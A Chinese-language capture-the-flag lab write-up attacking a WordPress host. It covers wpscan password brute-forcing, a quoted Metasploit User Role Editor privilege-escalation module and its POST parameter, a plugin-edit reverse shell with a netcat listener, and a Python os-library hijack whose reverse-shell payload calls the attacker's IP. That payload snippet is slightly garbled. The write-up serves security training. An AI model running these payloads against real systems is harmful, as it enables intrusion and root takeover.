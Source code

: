 ```yaml
---
title: 'WordPress提权与Python库劫持'
description: '通过WordPress用户权限提升漏洞突破防线，利用Python标准库劫持实现Root权限获取的渗透测试过程展示'
date: 2025-02-12
tags: ['Pentesting', 'Privilege Escalation', 'Library hijacking', 'WordPress']
image: './assets/image-20250212151115590.png'
authors: ['0xd00']
---
```


## 初始信息

IP：10.10.250.233->jack.thm

服务器中运行了位置python脚本

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -vv -T4 10.10.250.233
```

![端口扫描](./assets/image-20250212145736819.png)

**关键发现**:

- 开放80端口运行WordPress 5.3.2
- SSH服务运行于22端口
- 存在445端口（SMB）但无匿名访问
  ![80端口页面内容](./assets/image-20250212150139997.png)

### WordPress 信息枚举

```bash
wpscan --url http://jack.thm -e u,p,t
```

![Wp常见漏洞点xmlrpc](./assets/image-20250212151115590.png)

![wpscan枚举出的用户名和主题](./assets/image-20250212151504341.png)

但是后续使用`vp`和`ap`参数也没能识别出使用的插件

## 初始化访问

### WordPress 后台凭证爆破

```bash
wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
```

![爆破成功](./assets/image-20250212153343791.png)

使用爆破出的凭证访问后台

![wordpress后台](./assets/image-20250212153543331.png)

## 权限提升(WordPress)

可以发现此账户非管理员账户,没有主题和插件菜单,未发现其他漏洞点,需要想办法提权到管理员账号获取更多信息

```bash
searchsploit WordPress Privilege Escalation
```

![searchsploit搜索可利用exp](./assets/image-20250212155617767.png)

```bash
# 利用代码片段如下
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

......
    register_options(
      [
        OptString.new('TARGETURI',   [true, 'URI path to WordPress', '/']),
        OptString.new('ADMINPATH',   [true, 'wp-admin directory', 'wp-admin/']),
        OptString.new('CONTENTPATH', [true, 'wp-content directory', 'wp-content/']),
        OptString.new('PLUGINSPATH', [true, 'wp plugins directory', 'plugins/']),
        OptString.new('PLUGINPATH',  [true, 'User Role Editor directory', 'user-role-editor/']),
        OptString.new('USERNAME',    [true, 'WordPress username']),
        OptString.new('PASSWORD',    [true, 'WordPress password']),
	OptString.new('PRIVILEGES',  [true, 'Desired User Role Editor privileges', 'activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles'])
      ])
  end

 ......
    # Send HTTP POST request - update the specified user's privileges
    print_status("#{peer} - WordPress - Changing privs - #{username}")
    res = send_request_cgi({
      'method'    => 'POST',
      'uri'       => url,
      'vars_post' => {
        '_wpnonce'         => wp_nonce,
        '_wp_http_referer' => URI::encode(url),
        'from'             => 'profile',
        'checkuser_id'     => checkuser_id,
        'color-nonce'      => color_nonce,
        'admin_color'      => 'fresh',
        'admin_bar_front'  => '1',
        'first_name'       => '',
        'last_name'        => '',
        'nickname'         => nickname,
        'display_name'     => display_name,
        'email'            => email,
        'url'              => '',
        'description'      => '',
        'pass1'            => '',
        'pass2'            => '',
        'ure_other_roles'  => datastore['PRIVILEGES'],
        'action'           => 'update',
        'user_id'          => user_id,
        'submit'           => 'Update+Profile'
      },
      'cookie'    => cookie
    })

    # check outcome
    if res and res.code == 302
      print_good("#{peer} - WordPress - Changing privs - OK")
    else
      fail_with("#{peer} - WordPress - Changing privs - Server response (code #{res.code})")
    end
  end
end

# EoF
```

这段代码的关键是新增一个请求参数,并设置对应的权限:

```http
&ure_other_roles=activate_plugins,delete_others_pages,delete_others_posts,delete_pages,delete_posts,delete_private_pages,delete_private_posts,delete_published_pages,delete_published_posts,edit_dashboard,edit_others_pages,edit_others_posts,edit_pages,edit_posts,edit_private_pages,edit_private_posts,edit_published_pages,edit_published_posts,edit_theme_options,export,import,list_users,manage_categories,manage_links,manage_options,moderate_comments,promote_users,publish_pages,publish_posts,read_private_pages,read_private_posts,read,remove_users,switch_themes,upload_files,customize,delete_site,create_users,delete_plugins,delete_themes,delete_users,edit_plugins,edit_themes,edit_users,install_plugins,install_themes,unfiltered_html,unfiltered_upload,update_core,update_plugins,update_themes,ure_create_capabilities,ure_create_roles,ure_delete_capabilities,ure_delete_roles,ure_edit_roles,ure_manage_options,ure_reset_roles
```

![利用exp](./assets/image-20250212161232689.png)

![权限提升成功](./assets/image-20250212161555263.png)

## WebShell获取

```6666
nc -lvnp 6666
```
修改插件源码反弹shell

![修改插件源码](./assets/image-20250212162515764.png)

激活插件后成功获得反弹的shell

![获取到反弹shell](./assets/image-20250212162755599.png)

## SSH密钥发现

在浏览用户目录时发现以下信息

![新线索](./assets/image-20250212163003014.png)

新线索指向备份目录,检查常见的备份目录位置,在`/var/backups`目录找了一份`ssh`登录密钥

![备份目录的ssh密钥](./assets/image-20250212163616348.png)

拷贝到本地后尝试通过密钥登录

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.250.233
```
成功以jack用户的密钥登录到服务器
![以jack账户登录到服务器](./assets/image-20250212163838089.png)

攻击环境下载`pspy64`,之后通过python创建http服务器

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server
```

```bash
wget http://10.10.33.70:8000/pspy64
chmod u+x pspy64
./pspy64
```

发现到一个python脚本,经查询其默认调用的是python2

![pspy的部分输出](./assets/image-20250212170123250.png)

查看脚本内容

![python脚本内容](./assets/image-20250212170403318.png)

## Root提权

通过代码可以发现脚本功能是调用`curl`将请求127.0.0.1的请求头保存到日志文件中,目的大概是为了服务可用性记录.文件仅root可写

检查了curl和python2,并没有什么异常,但是在检查python2的库文件时发现库文件都属于`family`组

![python2库文件检查](./assets/image-20250212170847348.png)

查看`jack`的用户组

```bash
jack@jack:/opt/statuscheck$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```

### Python库劫持攻击

jack也在`family`组中,所以可以通过修改`os`库来进行提权

```bash
# 追加到os文件的末尾
import socket
import ptys=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.33.70", 6665))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

等待脚本被调用

...

成功提升到root权限

![提权成功](./assets/image-20250212172253103.png)
